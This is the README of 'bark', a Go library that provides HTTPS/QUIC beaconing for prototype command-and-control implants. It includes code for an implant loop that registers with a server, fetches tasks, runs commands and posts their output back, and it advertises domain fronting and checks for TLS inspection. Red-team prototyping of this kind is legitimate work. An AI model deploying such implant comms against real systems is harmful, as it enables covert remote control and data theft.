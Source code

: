 # bark
[![Go Report Card](https://goreportcard.com/badge/github.com/salukikit/bark)](https://goreportcard.com/report/github.com/salukikit/bark)
[![Go Reference](https://pkg.go.dev/badge/github.com/salukikit/bark.svg)](https://pkg.go.dev/github.com/salukikit/bark)
---
**WARNING**: This repo is still in active development and is subject to breaking changes.

**bark** is a simple HTTP/QUIC RESTful beaconing package for use in prototype/template C2's.

The idea behind bark is to provide a quick C2-lite https/quic comms package for small projects/pocs. It should hopefully save you rewriting a beaconing package everytime you want to try and create a new C2 or test an idea out.

With bark you can really structure your comms data however you like. Bark simply provides some quick wrappers around HTTPS and QUIC, with hopefully enough customisation to suit your needs. It's deliberately simple in functionality, so that you can implement more complex logic yourself as and when desire.

## What does it do?

**bark does:**

* Simplyfy the process of setting up HTTPS/QUIC comms channel.
* Work with domain fronting, including AWS.
* Plug-n-play:
    - Use only portions of Bark or all of it. Roll your own routes and server, but use the beacon package and vice-versa.
    - Use any of any transport compatible with the stdlib http.RoundTripper.
    - Use HTTP, HTTPS, HTTP3, or pure QUIC for transporting any []byte-able data.
* Retain's cookies via a cookiejar (WIP, but hopefully useable for rolling your own auth soon).
* Provides helpers for common C2 beaconing tasks, such as checking for TLS inspection.

**bark does not:**

* Handle beacon timings, retries and more.
* Implement command/Implant logic.
* Provide e2e encryption - bark only uses tls, you must use your own extra encryption mechanism if you want one.
* Custom/obfuscation profiles:
Some of this is possible via some of the extra bark.BarkMsg struct, e.g. headers, but really anything smarter should be done from scratch.

## bark Comms Flow

Below shows an example bark workflow which operates over four steps, for complete examples, see the examples directory.

1. Comms setup: 
The Implant comms need to be setup before any comms can take place.
```go

//Setup a router, and do not verify certificates.
    mybarker := bark.NewBarkerHTTP("mynewhttpcomms", false)
	mybarker.Ua = "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0)"
	//BarkHost should include the protocol, e.g. http:// or https://
	mybarker.BarkHost = "https://127.0.0.1:8080"

```

2. Register [optional]:
The Implant calls out to registration URL or URLs, use this stage to add the implant to your DB, return info etc.
As it's optional, you can also just use the beaconing requests instead.

```go
    //Set BarkMsg for registering implant.
	registermessage := &bark.BarkMsg{
		Uri:    "/register",
		Method: "GET",
	}

    //Send a registration request.
    resp, err := mybarker.Bark(*registermessage)
    if err != nil {

        time.Sleep(beacontime)
        continue
    }
    // Do something with the response (key-exchange, config update, choice is yours!)
```

3. Beacon:
Send a beacon (GET request) out to your desired endpoints.

```go
    //Set BarkMsg for beaconing.
    beaconmsg := &bark.BarkMsg{
        Uri:    "/tasks",
        Method: "GET",
    }
    //Send a beacon request out.
    encCmd, err := mybarker.Bark(*beaconmsg)
    if err != nil {
        time.Sleep(beacontime)
        continue
    }
    //Comnand Returned, do something with it:
    cmd, ok := YourDecryptFunc(encCmd)
```

4. Post Output [optional]:
If a cmd needs to return output, these endpoints can be sent post requests with the relevant data. 

```go
    //Command is good, run command
    output := RunCmd(cmd)
    encdata, ok := YourEncryptFunc([]byte(output))
    if ok {
        //Task ran fine, send output back.
        taskcompletemsg := &bark.BarkMsg{
            Uri:    "/upload",
            Method: "POST",
            Body:   []byte(encdata),
        }
    _, err := mybarker.Bark(*taskcompletemsg)
    }

```

Each of the Bark() funcs return the request body as a `[]byte` so that you can send any "byte-able" format and interpret the response however you please. They also store the request cookies. Headers and other HTTP data is not accessible to keep things simple.

For example, you might use `encoding/gob` to unmarshall the data into a go-readable struct, or simply use an entirely custom format. For example there is no reason you couldn't send an encrypted file, a totally custom binary format or even just a simple string. Anything goes so long as you can safely convert it to and from a byte slice.

## Helpers

There are also currently several helpers in Bark, the top two are:

* Jitter - Pass it a time.Duration and a float, and it'll handle Jitter calculations for you.
* GetTLSCertIssuer - Returns the Cert Issuer as a string, useful for checking if TLS is inspected.

Currently it only supports HTTP(s)/QUIC, but more is planned.

WIP additions:

* Simple Proxy & ntlm proxy support.
* Pure QUIC comms for beaconing and pivot connectivity (Howl).
* Header Support.
* Multiple URL Helper function.
* Add unit testing.